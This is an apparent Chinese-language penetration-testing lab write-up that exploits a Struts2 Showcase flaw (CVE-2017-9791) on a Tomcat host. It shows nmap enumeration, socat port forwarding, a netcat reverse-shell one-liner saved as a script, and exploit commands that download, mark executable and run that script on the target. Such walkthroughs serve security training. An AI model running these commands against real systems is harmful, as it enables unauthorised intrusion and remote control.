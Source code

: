 netstat -plunt   ---查看本地的服务端口情况

----------------------------------------------------------------------

项目二十：************

nmap信息枚举：
nmap -T5 -A -p8009,8080,34483 172.16.2.5
8009/tcp  open  ajp13   Apache Jserv (Protocol v1.3)
8080/tcp  open  http    Apache Tomcat 9.0.0.M26
|_http-title: Apache Tomcat/9.0.0.M26
34483/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4

开放的三个端口分别是tomcat以及ssh的端口！

在项目十九信息收集发现：/root目录存在note.txt
cat note.txt
/struts2_2.3.15.1-showcase

访问：
http://172.16.2.5:8080/struts2_2.3.15.1-showcase/showcase.action


webshell：CVE-2017-9791
发现这是S2的：Struts2 Showcase exploit
谷歌：https://www.exploit-db.com/exploits/42324

拷贝脚本到kali本地目录：
cp /usr/share/exploitdb/exploits/multiple/webapps/42324.py .

查看代码就是执行python脚本回弹外壳！那么要在socat建立一个反弹shell的端口：
socat TCP-LISTEN:8081,fork,reuseaddr TCP:172.16.2.4:8081 &

----
可以执行wget将反向shell直接拉向Neuromancer，可以在4321/tcp的kali上设置一个侦听的Python SimpleHTTPServer的服务，由于端口转发，任何wget在Neuromancer上对Straylight执行的请求4321/tcp都可以找到kali本机，先开启4321端口转发！

socat tcp-listen:4321,fork tcp:172.16.2.4:4321 &
socat tcp-listen:5555,fork tcp:172.16.2.4:5555 &

python3 -m http.server 4321

用pentestmonkey总结的反弹shell：写入dayu.sh文件中！
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.16.3.6 4321 >/tmp/f

本地开启监听：
nc -vlp 6667

执行S2的脚本：文件上传
python 42324.py http://172.16.2.5:8080/struts2_2.3.15.1-showcase/integration/saveGangster.action "wget http://172.16.3.6:5555/dayu.sh -O /tmp/dayu.sh"

文件赋权：
python 42324.py http://172.16.2.5:8080/struts2_2.3.15.1-showcase/integration/saveGangster.action "chmod +x /tmp/dayu.sh"

远程执行：
python 42324.py http://172.16.2.5:8080/struts2_2.3.15.1-showcase/integration/saveGangster.action "sh /tmp/dayu.sh"
